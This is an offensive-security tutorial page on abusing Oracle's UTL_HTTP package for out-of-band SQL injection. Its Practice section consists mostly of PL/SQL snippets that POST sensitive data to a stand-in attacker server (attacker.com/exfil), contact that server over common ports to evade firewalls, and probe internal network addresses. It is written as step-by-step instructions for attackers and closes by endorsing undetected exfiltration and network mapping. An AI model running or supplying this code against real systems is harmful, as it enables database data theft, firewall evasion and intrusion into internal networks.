

# UTL_HTTP

## Context

In the realm of offensive cybersecurity, the UTL_HTTP package within Oracle databases is a powerful tool leveraged for out-of-band injection attacks. This package allows for the establishment of HTTP connections directly from the database, facilitating the execution of SQL injection attacks through interactions with external servers. By exploiting UTL_HTTP, attackers can evade traditional detection methods by utilizing external network channels to exfiltrate data stealthily or communicate with hidden networks.

## Theory

The UTL_HTTP package is a part of Oracle's PL/SQL library that allows interaction with web servers over the HTTP and HTTPS protocols. It encompasses procedures to create HTTP requests, handle responses, and manage session information. Within a malicious context, attackers use UTL_HTTP to initiate outbound HTTP requests from the database, thus employing it for out-of-band data extraction during SQL injections.

### Key Concepts

- **Request Handling**: Craft and send HTTP requests to remote servers.
- **Response Handling**: Process and analyze responses from these servers.
- **Data Exfiltration**: Extract sensitive information from the database and send it to an attacker's server over HTTP.
- **Security Evasion**: Avoid detection by transmitting data via standard HTTP channels, such as ports 80 or 443.



## Practice

### Leveraging UTL_HTTP for Data Exfiltration

Here's how you can leverage UTL_HTTP to perform data exfiltration:

1. **Initialize UTL_HTTP**: Begin by setting up the HTTP objects.
   
   ```sql
   DECLARE
       req UTL_HTTP.REQ;
       resp UTL_HTTP.RESP;
   BEGIN
   ```

2. **Create HTTP Request**: Craft an HTTP POST request to an external server under the attacker's control.

   ```sql
   req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfil', 'POST');
   ```

3. **Include Data**: Add sensitive data to be exfiltrated in the POST body.

   ```sql
   UTL_HTTP.SET_HEADER(req, 'Content-Type', 'application/x-www-form-urlencoded');
   UTL_HTTP.WRITE_TEXT(req, 'data=' || sensitive_data);
   ```

4. **Invoke Request**: Send the request to the attacker's server to exfiltrate the data.

   ```sql
   resp := UTL_HTTP.GET_RESPONSE(req);
   ```

5. **Cleanup**: Finalize the session by closing the HTTP response.

   ```sql
   UTL_HTTP.END_RESPONSE(resp);
   END;
   /
   ```

### Bypassing Firewalls with UTL_HTTP

Use UTL_HTTP to send data over common HTTP ports to evade firewall restrictions.

1. **Deploy UTL_HTTP**: Initialize HTTP objects similar to the previous steps.

   ```sql
   DECLARE
       req UTL_HTTP.REQ;
       resp UTL_HTTP.RESP;
   BEGIN
   req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/listen', 'GET');
   ```

2. **Port Usage**: Ensure communication uses standard ports like 80 or 443.

   ```sql
   UTL_HTTP.SET_HEADER(req, 'Host', 'attacker.com');
   resp := UTL_HTTP.GET_RESPONSE(req);
   ```

3. **Validate Success**: Verify data receipt on the attacker's server through monitoring tools.

   ```sql
   UTL_HTTP.END_RESPONSE(resp);
   END;
   /
   ```

### Exploring Hidden Networks via UTL_HTTP

Discover internal IP addresses by sending requests using UTL_HTTP.

1. **Initiate Request**: Send crafted HTTP requests to suspected internal network addresses.

   ```sql
   DECLARE
       req UTL_HTTP.REQ;
       resp UTL_HTTP.RESP;
   BEGIN
   req := UTL_HTTP.BEGIN_REQUEST('http://192.168.1.1/api', 'GET');
   ```

2. **Send Request**: Include appropriate headers for the request.

   ```sql
   UTL_HTTP.SET_HEADER(req, 'Authorization', 'Bearer token');
   resp := UTL_HTTP.GET_RESPONSE(req);
   ```

3. **Analyze**: Interpret the responses to ascertain network information.

   ```plaintext
   HTTP/1.1 200 OK: {"devices": [{"id":"router"}]}
   ```

4. **Conclude**: Properly close HTTP connections post-analysis.

   ```sql
   UTL_HTTP.END_RESPONSE(resp);
   END;
   /
   ```

By understanding and utilizing the UTL_HTTP package effectively, an attacker can orchestrate sophisticated SQL injection attacks to exfiltrate data, bypass security measures like firewalls, and map internal networks undetected.